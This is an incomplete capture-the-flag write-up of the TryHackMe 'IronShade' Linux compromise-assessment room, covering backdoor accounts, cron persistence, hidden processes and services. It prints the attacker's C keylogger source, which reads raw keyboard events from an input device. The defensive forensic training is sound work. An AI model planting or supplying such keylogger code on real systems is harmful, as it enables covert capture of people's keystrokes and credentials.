





# IronShade
Perform a compromise assessment on a Linux host and identify the attack footprints.

## Quick Overview
Based on the threat intel report received, an infamous hacking group, IronShade, has been observed targeting Linux servers across the region. Our team had set up a honeypot and exposed weak SSH and ports to get attacked by the APT group and understand their attack patterns. 

You are provided with one of the compromised Linux servers. Your task as a Security Analyst is to perform a thorough compromise assessment on the Linux server and identify the attack footprints. Some threat reports indicate that one indicator of their attack is creating a backdoor account for persistence.

This is a Medium Forensic Room in TryHackMe, you can find the [room here](https://tryhackme.com/room/ironshade)

## Questions 
### What is the Machine ID of the machine we are investigating?

We are booting right into the machine, no autopsy or any other application in order to help us. 

To get the ID, we can just run : `cat /etc/machine-id`

### What backdoor user account was created on the server?
We took a look at `/etc/passwd`, and found a user 1001:1001, who might be it : mircoservice

### What is the cronjob that was set up by the attacker for persistence?
In the root account, under `crontab -l`, we can find this :
`@reboot /home/mircoservice/printer_app` hum hum hum

### Examine the running processes on the machine. Can you identify the suspicious-looking hidden process from the backdoor account?

We can start digging in the process in order to see if somes are from his directory : `ps aux |grep "home/m**********e"`

We find two very interesting part : 
- .strokes
- printer_app 

Strokes is litterally a keylogger in C
```
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <linux/input.h>

#define DEVICE "/dev/input/event3" // Change to your device file

int main() {
    int fd;
    struct input_event ie;

    fd = open(DEVICE, O_RDONLY);
    if (fd == -1) {
        perror("Failed to open device");
        exit(EXIT_FAILURE);
    }

    while (1) {
        if (read(fd, &ie, sizeof(struct input_event)) == -1) {
            perror("Read error");
            exit(EXIT_FAILURE);
        }
        if (ie.type == EV_KEY && ie.value == 1) { // Key press event
            printf("Key %d pressed\n", ie.code);
        }
    }

    close(fd);
    return 0;
}
```
And we found another files, that lead to the creation of the backdoor process 



### What is the name of the hidden file in memory from the root directory?

On the root directory, we can use the command : `ls -lah /` in order to find it. 
We can brightly see the `.systmd` component.

### What suspicious services were installed on the server? Format is service a, service b in alphabetical order.

Let's dive deep in the service with `systemctl list-units --type=sercice --all` 
We can find the following : 
- backup.service
- strokes.service

### Examine the logs; when was the backdoor account created on this infected system ?
We can use `grep -i -a useradd auth.log` in order to see when the account was created.

### From which IP address were multiple SSH connections observed against the suspicious backdoor account?



### How many failed SSH login attempts were observed on the backdoor account?



### Which malicious package was installed on the host?



### What is the secret code found in the metadata of the suspicious package?


